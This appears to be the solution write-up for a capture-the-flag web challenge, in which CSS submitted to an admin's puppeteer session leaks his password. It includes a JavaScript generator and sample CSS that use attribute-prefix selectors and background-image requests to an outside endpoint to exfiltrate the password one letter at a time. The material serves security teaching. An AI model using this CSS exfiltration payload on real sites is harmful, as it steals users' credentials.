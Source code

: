 # Challenge Overview

Bob the Tomato is a web admin who has set up a new website. While he's great with coding, he isn't as good with styles, so he's looking for community contributions. People can submit CSS to Bob for him to try (read: load into a puppeteer runner). CSS Injection attacks can be used here to get information about the page in Bob's session, when he tests the CSS styles.

# Solution

CSS selectors offer a number of partial matching options, these can be exploited en-masse, along with the url function, to send web requests in response to page contents.

While this can be written by hand, students will find this much easier with a script to write the CSS.

Something like the following would work well:

```js
const url = 'https://some.http.endpoint';
const alphabet = [];
for (let i = 97; i < 123; i++) {
    alphabet.push(String.fromCharCode(i));
}
console.log(alphabet.map(letter=>`#password[value^=${prefix}${letter}] {
    background-image: url('${url}/${prefix}${letter}');
}`).join('\n'));
```

This will then generate CSS like:

```css
#password[value^=t] {
    background-image: url('https://some.http.endpoint/t');
}
```

Which will submit a request to the given endpoint if and only if the #password field (in /account) has a value starting with "t".

By brute-forcing one letter at a time, the students can work out Bob's password, log into his account, and find the flag.

# Hints

See `/hint`
